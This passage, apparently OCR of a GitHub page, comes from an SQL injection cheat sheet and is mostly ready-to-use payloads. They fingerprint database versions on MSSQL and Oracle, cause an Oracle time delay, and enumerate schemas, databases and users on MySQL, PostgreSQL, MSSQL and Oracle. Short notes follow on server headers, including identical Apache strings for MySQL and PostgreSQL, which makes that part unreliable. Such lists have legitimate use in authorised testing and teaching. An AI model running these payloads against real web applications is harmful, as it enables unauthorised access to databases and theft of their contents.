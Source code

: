 #### MSSQL
```sql
' AND 1=1 UNION SELECT @@version --
```

#### Oracle
```sql
' AND 1=1 UNION SELECT banner FROM v$version --
```

- **Oracle**
  ```sql
  ' AND dbms_pipe.receive_message('a', 5) --
  ```

### 5. Union-Based Enumeration

Use union-based injection to retrieve specific database metadata.

#### Example Payloads

- **MySQL**
  ```sql
  ' UNION SELECT null, schema_name FROM information_schema.schemata --
  ```

- **PostgreSQL**
  ```sql
  ' UNION SELECT null, datname FROM pg_database --
  ```

- **MSSQL**
  ```sql
  ' UNION SELECT null, name FROM master..sysdatabases --
  ```

- **Oracle**
  ```sql
  ' UNION SELECT null, username FROM all_users --
  ```

### 6. HTTP Headers and Responses

Inspect HTTP headers and responses for database-specific indicators.

#### Example Headers

- **Server Header**
  - MySQL: `Server: Apache/2.4.1 (Unix) OpenSSL/1.0.1e PHP/5.4.7`
  - PostgreSQL: `Server: Apache/2.4.1 (Unix) OpenSSL/1.0.1e PHP/5.4.7`
  - MSSQL: `Server: Microsoft-IIS/8.5`
  - Oracle: `Server: Oracle-HTTP-Server`

### 7. Identifying Database-Specific Patterns

Analyze the web application for patterns specific to certain databases.

